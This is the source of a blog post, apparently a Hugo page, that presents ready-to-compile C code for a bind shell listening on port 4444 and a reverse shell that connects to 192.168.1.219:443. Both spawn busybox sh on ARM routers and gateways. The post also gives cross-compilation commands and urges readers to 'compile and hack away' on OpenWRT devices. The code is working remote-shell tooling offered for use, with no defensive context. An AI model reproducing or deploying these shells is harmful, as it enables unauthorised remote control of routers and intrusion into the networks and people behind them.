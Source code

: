 ```yaml
---
title: "C Shells for Routers & Gateways"
date: 2019-05-02T20:24:45+02:00
draft: false
categories:
- posts
tags:
- security
- shells
keywords:
- security
- shells
- embedded
coverSize: partial
coverMeta: in
autoThumbnailImage: true
---
```


Today at work, we made these two C Shells for embedded devices that run busybox. One is a bind shell and the other is a reverse shell.<!--more--> This was tested on a rooted home gateway that was running of an armv7l CPU. I compiled this on Ubuntu 16.04.6 LTS, therefore needing the cross-compilation libraries and tools.

Installing the libraries & tools:
```bash
root@ubuntu:~/asm$ sudo apt-get install gcc-arm-linux-gnueabi binutils-arm-linux-gnueabi libncurses5-dev libc6-armel-cross
```

Compiling:
```bash
root@ubuntu:~/asm$ arm-linux-gnueabi-gcc shell.c -g -o shell
```
If you need some shells that may work in some OpenWRT Devices, then compile and hack away!

<hr>
### Bind Shell
{{% tabbed-codeblock bind %}}
<!-- tab C-->
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>
#define LOCAL_PORT 4444

int main()
{
  int resultfd, sockfd;
  struct sockaddr_in my_addr;
  char *args[] = { "/bin/busybox", "sh", NULL};
  sockfd = socket(AF_INET, SOCK_STREAM, 0);

  int one = 1;
  setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one));

  my_addr.sin_family = AF_INET; // 2
  my_addr.sin_port = htons(LOCAL_PORT); // port number
  my_addr.sin_addr.s_addr = INADDR_ANY; // 0 fill with the local IP

  bind(sockfd, (struct sockaddr *) &my_addr, sizeof(my_addr));
  listen(sockfd, 0);
  resultfd = accept(sockfd, NULL, NULL);
  dup2(resultfd, 2);
  dup2(resultfd, 1);
  dup2(resultfd, 0);
  execve(args[0], &args[0], 0);
  return 0;
}
<!-- endtab -->
{{% /tabbed-codeblock %}}

### Reverse Shell
{{% tabbed-codeblock rev %}}
<!-- tab C-->
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#define REMOTE_ADDR "192.168.1.219"
#define REMOTE_PORT 443

int main(int argc, char *argv[])
{
  struct sockaddr_in sa;
  int s;
  char *args[] = { "/bin/busybox", "sh", NULL};
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
  sa.sin_port = htons(REMOTE_PORT);
  s = socket(AF_INET, SOCK_STREAM, 0);
  connect(s, (struct sockaddr *)&sa, sizeof(sa));
  dup2(s, 0);
  dup2(s, 1);
  dup2(s, 2);
  execve(args[0], &args[0], 0);
  return 0;
}
<!-- endtab -->
{{% /tabbed-codeblock %}}

